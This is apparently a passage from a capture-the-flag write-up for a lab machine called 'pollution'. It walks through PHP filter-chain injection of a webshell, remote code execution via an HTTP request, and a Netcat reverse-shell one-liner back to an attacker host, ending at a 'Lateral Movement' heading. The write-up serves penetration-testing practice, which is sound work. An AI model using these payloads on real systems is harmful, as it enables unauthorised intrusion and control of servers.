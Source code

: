 Created another payload. This time for a webshell.

```bash
python3 php_filter_chain_generator.py --chain '<?php system($_GET["c"]);?>'
[+] The following gadget chain will generate the following code : <?php system($_GET["c"]);?> (base64 value: PD9waHAgc3lzdGVtKCRfR0VUWyJjIl0pOz8+)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode
<SNIP>
```

Successfully achieved RCE as *www-data*.

```
GET /?page=php://filter/convert.iconv.UTF8.CSISO2022KR<SNIP>&c=whoami HTTP/1.1
```

<img src="/assets/img/pollution/image 26.png" alt="image 26.png" style="width:800px;">

Started the Netcat listener `nc -nlvp 4444` and used this one-liner from [RevShells](https://www.revshells.com/).

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {LHOST} {LPORT} >/tmp/f
```

Established a reverse shell as *www-data*, and upgraded it to a pseudo-interactive TTY using Python.

```bash
www-data@pollution:~/developers$ whoami
www-data

www-data@pollution:~/developers$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# Lateral Movement
